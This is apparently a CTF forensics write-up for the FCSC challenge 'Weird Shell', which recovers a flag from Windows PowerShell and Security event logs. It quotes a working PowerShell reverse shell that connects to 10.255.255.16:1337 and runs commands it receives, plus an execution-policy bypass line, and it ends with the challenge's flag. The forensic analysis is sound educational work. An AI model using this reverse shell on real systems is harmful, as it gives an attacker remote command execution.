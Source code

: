 # Weird Shell

# Original challenge 🇫🇷
Un autre utilisateur a un comportement similaire à La gazette de Windows (catégorie intro). Mais cette fois, pour retrouver ce qui a été envoyé à l'attaquant il faudra peut-être plus de logs.

# Translated challenge 🇺🇸
Another user has similar behavior to Windows Gazette (intro category). But this time, to find what was sent to the attacker, you may need more logs.

# Solution
Once again, we are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx  and Security.evtx files.

On the Microsoft Windows PowerShell4Operational file, we can notice that there are two warning events with the following Script Block :

```
Création du texte Scriptblock (1 sur 1) : 
if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\Users\jmichel\Downloads\payload.ps1'

ID Scriptblock : dcb325dd-1c30-46bd-8363-81083ac85323
Chemin d'accès : 
```

and 

```
Création du texte Scriptblock (1 sur 1) : 
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name).ToString()))))).Replace('-', '').ToLower())}`n"
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()


ID Scriptblock : 2354b750-2422-42a3-b8c2-4fd7fd36dfe7
Chemin d'accès : D:\PAYLOAD.PS1
```

The payload file has been given the authorization to be executed

The payload is writing an encrypted stream

To reconstruct what was sent, we need the $PID and the System.Security.Principal.WindowsIdentity

These information are available on the security logs : 

We can read it from the event at : 16:26:50 : 
```
SubjectUserName : cmaltese 
SubjectDomainName : FCSC 
ProcessId : 0xecc 
```

We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :


```
$ScriptBlock = {


$StreamWriter = New-Object IO.StreamWriter([System.Console]::OpenStandardOutput())
function WriteToStream ($String) {
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$processID = "3788"  # Replace with the desired process ID, 3788 is 0xecc in hex
$WindowsIdentity = "FCSC\cmaltese"
WriteToStream "FCSC{$(([System.BitConverter]::ToString(([System.Security.Cryptography.SHA256]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(($processID + $WindowsIdentity).ToString()))))).Replace('-', '').ToLower())}`n"


while($true) {
    $Command = Read-Host "PS > "
    if($Command -eq "exit") { break }

    $Output = try {
        Invoke-Expression $Command 2>&1 | Out-String
    } catch {
        $_ | Out-String
    }

    WriteToStream ($Output)
}

$StreamWriter.Close()

}
```

# Result
By running the edited Block Script we have the correct flag :

FCSC{21311ed8321926a27f6a6c407fdbe7dc308535caad861c004b382402b556bbfa}